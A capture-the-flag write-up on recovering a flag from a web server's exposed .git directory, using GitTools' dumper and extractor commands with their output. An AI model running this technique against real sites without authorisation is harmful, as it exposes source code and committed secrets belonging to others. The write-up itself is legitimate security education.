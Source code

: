 # git goo

This challenge gave a link to a web page
>Can you find your way around a git reposotory [sic]?
`gitgoo.challs.pwnoh.io`

This web page was completely blank. I looked around in inspect element, to try and find some clue about what to do. I couldn't find anything, no network requests or other files.  

Based on the challenge description, I guessed that this was a git repository hosted to a web page. I knew that all git repositories have a /.git file, so I tried `gitgoo.challs.pwnoh.io/.git`

![Gitgoo Screenshot](/assets/gitgoo.png)

Now that I know I can access the `./git` folder, I looked up how this folder is organized. I found that a history of all committments could be found in `.git/logs/refs/heads/master`, so I tried that and found this.

![Gitgoo Screenshot](/assets/gitgoo.png)

I saw that in one of the past versions, the flag was accidentally uploaded. I looked up how to get past versions of the source code with the .git folder, and found [GitTools'](https://github.com/internetwache/GitTools) dumper and extractor tool.

```
$ bash ~/GitTool/Dumper/gitdumper.sh http://localhost:5000/.git/ ./dump
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/39/1d507873dc7139d2420a8b492620db26912cdb
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/bc/97871a6f5453920882b0bbd97d8ac4fb2bcf9c
[+] Downloaded: objects/87/2e5099233f5d528ce3e60b4b197c9af17f784b
[+] Downloaded: objects/9b/474236ba20cf3f7d484b76348de51c819c0d65
[+] Downloaded: objects/7c/66dc0899a8bc61fb4775128363f6038cf0ddc6
[+] Downloaded: objects/7e/8a2b8a2ab84307eae435657c503c0b9f27af65
[+] Downloaded: objects/a4/68f07e26253bd5358684d39911f80c01e038a7
[+] Downloaded: objects/da/9c794745ce1c17844c0a03cb134e692d0f8353
[+] Downloaded: objects/7e/8cab9152f1e0689a48f210e679fb769284dea4
[+] Downloaded: objects/50/9dc2285f81184c13e362a2cd72a95382d54655
[+] Downloaded: objects/5a/ed32b539741d15880c69ab0cc7c72d26fb8ce7
[+] Downloaded: objects/1f/077205b3c88bda7cda44086dd0344494810ea2
```

This created a `.git` folder inside `./dump`, and now I can use the extractor to get the source code from the past commits

```
$ bash ~/GitTool/Extractor/extractor.sh ./ ./
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
[+] Found commit: bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//0-bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c/index.html
[+] Found commit: 391d507873dc7139d2420a8b492620db26912cdb
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//1-391d507873dc7139d2420a8b492620db26912cdb/.gitignore
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//1-391d507873dc7139d2420a8b492620db26912cdb/Dockerfile
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//1-391d507873dc7139d2420a8b492620db26912cdb/app.py
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//1-391d507873dc7139d2420a8b492620db26912cdb/index.html
[+] Found commit: 9b474236ba20cf3f7d484b76348de51c819c0d65
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//2-9b474236ba20cf3f7d484b76348de51c819c0d65/.gitignore
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//2-9b474236ba20cf3f7d484b76348de51c819c0d65/Dockerfile
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//2-9b474236ba20cf3f7d484b76348de51c819c0d65/app.py
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//2-9b474236ba20cf3f7d484b76348de51c819c0d65/index.html
[+] Found commit: 872e5099233f5d528ce3e60b4b197c9af17f784b
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//3-872e5099233f5d528ce3e60b4b197c9af17f784b/Dockerfile
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//3-872e5099233f5d528ce3e60b4b197c9af17f784b/app.py
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//3-872e5099233f5d528ce3e60b4b197c9af17f784b/flag.txt
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//3-872e5099233f5d528ce3e60b4b197c9af17f784b/index.html
$ ls -la
total 28
drwxr-xr-x 7 kyle kyle 4096 Oct 29 17:49 .
drwxr-xr-x 5 kyle kyle 4096 Oct 29 17:44 ..
drwxr-xr-x 6 kyle kyle 4096 Oct 29 17:44 .git
drwxr-xr-x 2 kyle kyle 4096 Oct 29 17:49 0-bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c
drwxr-xr-x 2 kyle kyle 4096 Oct 29 17:49 1-391d507873dc7139d2420a8b492620db26912cdb
drwxr-xr-x 2 kyle kyle 4096 Oct 29 17:49 2-9b474236ba20cf3f7d484b76348de51c819c0d65
drwxr-xr-x 2 kyle kyle 4096 Oct 29 17:49 3-872e5099233f5d528ce3e60b4b197c9af17f784b
```

Based on `.git/logs/refs/heads/master`, the folder that I wanted had the id `9b474236ba20cf3f7d484b76348de51c819c0d65`. For some reason it wasn't there, so I tried the next file.

```
$ cd 3-872e5099233f5d528ce3e60b4b197c9af17f784b/
$ ls
Dockerfile  app.py  commit-meta.txt  flag.txt  index.html
$ cat flag.txt
bctf{1_h4v3_c0mm17m3n7_i55u3s_cf39ab917a7dd092992a8f9b}
```

